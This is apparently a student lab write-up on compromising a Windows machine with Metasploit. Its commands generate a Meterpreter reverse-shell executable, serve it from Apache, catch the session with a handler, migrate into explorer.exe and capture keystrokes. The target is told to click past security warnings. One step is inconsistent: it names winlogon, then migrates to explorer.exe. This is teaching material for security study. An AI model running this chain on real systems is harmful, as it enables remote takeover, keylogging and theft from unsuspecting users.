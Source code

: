 # Compromising-windows-using-Metasploit

Compromising windows using Metasploit

# Metasploit

Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/662e1113-220c-44d0-aa9f-1c83e254eb5e)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/a894c9ec-aec4-42e4-ae58-931e69c77190)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/2d40f577-88bf-4295-95e6-27bdbbcb9d06)

Start apache server sudo systemctl apache2 start

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/ae2a2d3d-d48c-40b0-896e-c8512f617487)

Check the status of apache2
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/474fad86-07e8-4bb9-84cd-1c87aca83d96)

Invoke msfconsole:

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/031a8ed0-0b12-4635-93cc-516c4d8bfe08)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/b3dc4d12-c7fb-4601-ac8f-b61afd501987)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/41162f9e-b75b-4956-b03e-c83fe535ead8)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/bfc7b80d-4ede-442c-b223-1fef21e57cc1)

The Metasploit shell is running inside the 
"fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/3461a1c8-8dd9-406d-95e7-e225c73d9df5)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/5f4557ea-be68-4a63-a578-4b14379dda22)

## RESULT:

The Metasploit framework is  used to compromise windows and is examined successfully.
